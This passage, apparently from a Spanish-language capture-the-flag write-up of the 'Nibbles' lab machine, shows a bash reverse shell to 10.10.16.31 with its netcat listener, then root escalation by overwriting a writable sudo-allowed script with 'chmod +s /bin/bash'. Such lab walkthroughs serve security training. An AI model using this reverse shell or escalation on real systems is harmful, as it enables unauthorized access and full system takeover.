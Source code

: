 ```bash
cmd> bash -c 'bash -i >& /dev/tcp/10.10.16.31/443 0>&1'

.....

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.31] from (UNKNOWN) [10.129.144.174] 51348
bash: cannot set terminal process group (1354): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```
# Shell como root
Enumerando encuentro que puedo ejecutar como root `/home/nibbler/personal/stuff/monitor.sh`.

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Intentando obtener más información sobre el archivo encuentro que este no existe. Al buscar más en detalle en el directorio Home de nibbler encuentro un archivo zip el cual extraigo.

```bash
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
personal  personal.zip  user.txt
```
Ahora al revisar el script encuentro que tengo todos los permisos por lo cual solo cambio el contenido por `chmod +s /bin/bash`.

```bash
nibbler@Nibbles:/home/nibbler$ ls -la personal/stuff/monitor.sh
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ echo "chmod +s /bin/bash" > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$
```
Ahora solo ejecutamos el script.

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ bash -p
bash-4.3# whoami
root
bash-4.3#
```
Hemos pwneado la maquina!!!

